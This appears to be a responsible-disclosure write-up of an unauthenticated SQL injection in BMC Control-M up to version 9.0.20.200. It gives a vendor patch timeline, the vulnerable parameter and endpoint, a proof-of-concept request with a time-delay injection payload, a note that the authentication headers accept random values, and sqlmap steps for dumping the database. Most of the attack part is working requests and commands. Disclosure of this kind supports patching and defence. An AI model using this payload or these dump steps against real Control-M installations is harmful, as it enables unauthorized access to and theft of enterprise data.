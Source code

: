 # BMC Control-M Unauthenticated SQL Injection
**BMC Control-M Unauthenticated SQL Injection Version < 9.0.20.200**

**Timeline:**      
**Vulnerability reported to vendor:** 26.08.2022     
**New fixed 9.0.21 version released:** 12.09.2022    
**Patch for version 9.0.20.200 released:** 21.12.2022     
**Disclosure:** 05.06.2023         
**Additional Information from Vendor:** Version 9.0.20 requires two patches 9.0.20.220 and then 9.0.20.224 to fix this vulnerability       

**Affected Products:**   
BMC Control-M software up to (including) 9.0.20.200 .
Vulnerability found and confirmed in version 9.0.20.100, information about patch in version 9.0.20.200 comes from the vendor.



BMC Control-M software versions up to (including) 9.0.20.200 are vulnerable to Unauthenticated SQL Injection.    
Vulnerable parameter _report-id_ is present within _/RF-Server/report/deleteReport_ endpoint.    

Below is the Proof of Concept request which triggers a 10 seconds delay:
```
DELETE /RF-Server/report/deleteReport?report-id=’+waitfor+delay+’0:0:10’--
Host: [REDACTED]
Connection: close
user-id: X
Accept: application/json, text/plain, */*
server-name:
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: X
```
Additional Info: _Cookie_ and _user_id_ headers must be present, but the value can be random.     
Screenshot from BurpSuite:    
<img src="/BurpSuitePoC.jpg">

**Steps to dump the database:**   
Save the above request (without the payload) to a file request.txt :    
```
DELETE /RF-Server/report/deleteReport?report-id=1
Host: [REDACTED]
Connection: close
user-id: X
Accept: application/json, text/plain, */*
server-name:
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: X
```
Execute following _sqlmap_ command:    
```
sqlmap -r request.txt -p report-id —-no-cast —-dbs 
```
Screenshot of extracted database structure:   
<img src="/SqlmapPoC.png">

